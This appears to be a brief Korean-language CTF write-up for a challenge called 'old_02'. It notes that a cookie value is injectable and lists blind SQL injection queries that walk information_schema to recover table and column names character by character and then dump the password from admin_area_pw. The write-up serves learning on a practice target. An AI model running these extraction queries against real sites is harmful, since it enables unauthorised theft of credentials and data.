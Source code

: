 <details>
    <summary>python code</summary>

    from pwn import *



## old_02





cookie에 여러 값 테스트

sql injection 가능

information_schema 를 이용하여

-테이블 개수 : select count(table_name) from information_schema.tables where table_schema=database()

-테이블 이름 길이 : select length(table_name) from information_schema.tables where table_schema=database() limit 0,1

-테이블 이름: select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1



-컬럼 개수 : select count(column_name) from information_schema.columns where table_name="admin_area_pw"

-컬럼 이름 길이: select length(column_name) from information_schema.columns where table_name="admin_area_pw" limit 0,1

-컬럼 이름 : select ascii(substring(column_name, 1, 1)) from information_schema.columns where table_name="admin_area_pw" limit 0,1

-패스워드

select count(pw) from admin_area_pw

select length(pw) from admin_area_pw limit 0,1

select ascii(substring(pw, 1,1)) from admin_area_pw limit 0,1


